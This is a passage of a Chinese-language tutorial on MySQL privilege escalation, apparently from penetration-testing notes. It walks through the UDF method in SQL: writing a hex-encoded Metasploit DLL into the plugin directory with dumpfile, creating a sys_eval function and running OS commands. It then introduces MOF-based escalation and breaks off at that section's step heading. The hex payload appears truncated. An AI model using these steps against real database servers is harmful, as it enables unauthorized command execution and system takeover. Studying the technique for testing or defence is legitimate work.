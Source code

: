 ```sql
show variables like '%compile%';             #查看主机版本及架构
show variables like 'plugin%';               #查看 plugin 目录
```

我们可以去 kali 中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载相应位数的 .dll 文件。

4. 将 dll 文件写入 plugin 目录,并且创建函数
   创建一个表并将二进制数据插入到十六进制编码流中。你可以通过 insert 语句或将其分解为多个部分，然后通过 update 语句拼接二进制数据。

```sql
create table temp(data longblob);
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";
create function sys_eval returns string soname 'udf.dll';   #创建函数sys_eval
```

执行`select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";` 时有可能会出现以下错误，因为当 MySQL 大于 5.1 时，默认是没有 lib\plugin 目录的。而 into dumpfile 在写入文件时也不能创建文件夹，所以也就报错了：Can't create/write to file
![](vx_images/4780328108584.png)

6. 创建`sys_eval`自定义函数

在将 udf.dll 文件写入 plugin 目录后，我们就可以使用 sys_eval 函数了。

```sql
create function sys_eval returns string soname 'udf.dll'
select * from mysql.func where name = 'sys_eval';    #查看创建的sys_eval函数
select sys_eval('whoami');                           #使用系统命令
```

## 3.2 MySQL MOF 提权

### 3.2.1 利用原理

mof 是 windows 系统的一个文件（在 c:/windows/system32/wbem/mof/nullevt.mof）叫做"托管对象格式"其作用是每隔五秒就会去监控进程创建和死亡。其就是用又了 mysql 的 root 权限了以后，然后使用 root 权限去执行我们上传的 mof。隔了一定时间以后这个 mof 就会被执行，这个 mof 当中有一段是 vbs 脚本，这个 vbs 大多数的是 cmd 的添加管理员用户的命令。

### 3.2.2 利用条件

1. `C:/Windows/System32/wbem/MOF`可读写
2. 需要 MySQL root 权限

### 3.2.3 利用步骤哦
